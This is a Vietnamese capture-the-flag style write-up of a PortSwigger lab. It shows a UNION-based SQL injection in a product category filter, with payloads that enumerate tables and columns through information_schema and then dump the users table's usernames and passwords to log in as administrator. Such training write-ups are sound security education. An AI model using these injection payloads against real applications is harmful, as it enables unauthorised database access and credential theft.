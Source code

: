 # SQL injection attack, listing the database contents on non-Oracle databases

# 1. Vulnerable

```
This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response so you can use a UNION attack to retrieve data from other tables.

The application has a login function, and the database contains a table that holds usernames and passwords. You need to determine the name of this table and the columns it contains, then retrieve the contents of the table to obtain the username and password of all users.

To solve the lab, log in as the administrator user.
```

Lab này yêu cầu ta phải sử dụng lỗ hổng `SQLi` để xâm nhập vào cơ sở dữ liệu để đọc hết 2 bảng `username` và `password` để lấy thông tin đăng nhập của `administrator`

# 2. Exploit

Đầu tiên ta phải xác định số lượng cột truy vấn vào cơ sở dữ liệu của trang web bằng `UNION attack`

```
'+UNION+SELECT+null,null--
```

![union.png](images/union.png)

Kế đến, để tìm tên bảng chứa tên các cột (trong đó có các cột chứa `username` và `password`). Trong [SQLi_Cheat_sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet) có chứa 1 đoạn đó là `Database contents`

```
Oracle	    SELECT * FROM all_tables
            SELECT * FROM all_tab_columns WHERE table_name = 'TABLE-NAME-HERE'
Microsoft	SELECT * FROM information_schema.tables
            SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'
PostgreSQL	SELECT * FROM information_schema.tables
            SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'
MySQL	    SELECT * FROM information_schema.tables
            SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'
```

Đầu bài có nói database ở đây không dừng Oracle

`information_schema.tables` là một bảng đặc biệt có sẵn trong hầu hết hệ quản trị cơ sở dữ liệu, bao gồm MySQL, PostgreSQL, SQL Server và nhiều hệ thống quản lý cơ sở dữ liệu khác. Bảng này chứa thông tin về các bảng có trong cơ sở dữ liệu của bạn.

Thông thường, information_schema.tables chứa các cột sau:

- table_catalog: Tên của cơ sở dữ liệu mà bảng thuộc về (một DBMS có thể hỗ trợ nhiều cơ sở dữ liệu).
- table_schema: Tên của schema (không gian tên) mà bảng thuộc về (một cơ sở dữ liệu có thể chứa nhiều schema).
- table_name: Tên của bảng.
- table_type: Loại bảng (ví dụ: "BASE TABLE" cho bảng thường, "VIEW" cho xem).
- engine: Đối với MySQL, thông tin về engine (ví dụ: InnoDB, MyISAM).
- version: Phiên bản của bảng (thông tin cho một số DBMS).
- row_format: Định dạng hàng lưu trữ dữ liệu (đối với MySQL).

Từ đó ta có thể xem hết tên của các bảng có trong `information_schema.tables` bằng payload:

```
SELECT+table_name,null+FROM+information_schema.tables
```

![user.png](images/user.png)

Vậy đã xác định được bảng user chứa các cột thông tin

Kế đến sau khi biết được tên bảng chứa các cột thì ta sử dụng tiếp [SQLi_Cheat_sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet) ở đây có `information_schema.columns` chứa các cột trong bảng

Ta có payload sau để lấy thông tin về các cột trong bảng:

```
'+UNION+SELECT+column_name,null+FROM+information_schema.columns+WHERE+table_name='users_fgixha'--
```

![sol.png](images/sol.png)

Sau khi có 2 cột username và password cần thiết rồi thì công việc đơn giản tiếp theo là lấy tất cả thông tin từ 2 cột này thôi

```
'+UNION+SELECT+username_yfqqcr,password_fipsuk+FROM+users_fgixha--
```

![admin.png](images/admin.png)


Và ta đã lấy được thông tin của `admin`

Login và soled!

![solved.png](images/solved.png)

